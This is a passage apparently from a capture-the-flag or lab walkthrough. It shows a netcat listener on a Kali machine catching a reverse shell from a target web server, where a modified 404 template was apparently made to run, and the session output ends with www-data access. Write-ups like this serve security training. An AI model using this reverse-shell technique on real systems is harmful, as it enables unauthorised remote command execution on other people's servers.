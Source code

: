 ![Untitled](All_In_One%20images/Untitled%204.png)

Start the ******************************Netcat Listener****************************** on local machine and wait for the application execute the ************************404 Template************************:

```tsx
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242                   
listening on [any] 4242 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.33.235] 50878
Linux elyana 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:47:45 up 37 min,  0 users,  load average: 0.45, 1.65, 2.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```
